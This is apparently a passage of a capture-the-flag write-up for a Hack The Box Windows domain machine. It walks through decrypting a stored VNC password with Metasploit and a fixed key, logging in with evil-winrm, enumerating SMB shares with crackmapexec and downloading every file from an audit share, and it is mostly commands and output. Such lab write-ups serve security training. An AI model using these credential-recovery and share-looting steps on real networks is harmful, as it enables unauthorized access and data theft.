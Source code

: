 # Let's decode VNC password using metasploit: Reference

```bash
msfconsole
msf5 > irb
key="\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), key
=> "sT333ve2"
```
# Got password for .smith, Let's login with Evail-Winrm:

```bash
└─$ evil-winrm -u s.smith -p "sT333ve2" -i 10.10.10.182
SUCCESS
```

# using crackmapexec got share permissions:

```bash
└─$ crackmapexec smb -u s.smith -p sT333ve2 -d cascade.local --shares 10.10.10.182
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1          -----              -----------           ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$          READ            
SMB         10.10.10.182    445    CASC-DC1         C$                                   Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                                Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON  READ           Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL       READ            Logon server share 

```

# Login to smb:

```bash
└─$ smbclient //10.10.10.182/Audit$ -U s.smith
Password for [WORKGROUP\s.smith]:
Try "help" to get a list of possible commands.
smb: \>recurse ON
smb: \> prompt OFF
smb: \> mask ""
smb: \> mget *

-------- Got all files---------------
```
